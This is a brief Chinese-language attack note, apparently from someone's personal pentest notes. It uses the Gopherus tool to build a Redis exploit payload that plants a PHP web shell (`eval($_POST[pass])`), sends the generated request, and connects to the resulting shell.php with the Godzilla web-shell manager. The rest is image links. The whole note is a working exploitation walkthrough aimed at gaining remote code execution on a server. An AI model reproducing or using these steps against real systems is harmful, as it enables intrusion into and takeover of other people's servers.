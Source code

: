 使用gopherus生成

```
python2 gopherus.py --exploit redis
What do you want?? (ReverseShell/PHPShell): phpshell
Give web root location of server (default is /var/www/html):
Give PHP Payload (We have default PHP Shell): <?php eval($_POST[pass]);?>
```

![image-20240511153950326](D:\Infiltration\笔记\note\图片\image-20240511153950326.png)



直接利用生成的payload请求

![image-20240511154542973](D:\Infiltration\笔记\note\图片\image-20240511154542973.png)

使用哥斯拉连接生成的shell.php

![image-20240511154902361](D:\Infiltration\笔记\note\图片\image-20240511154902361.png)



























































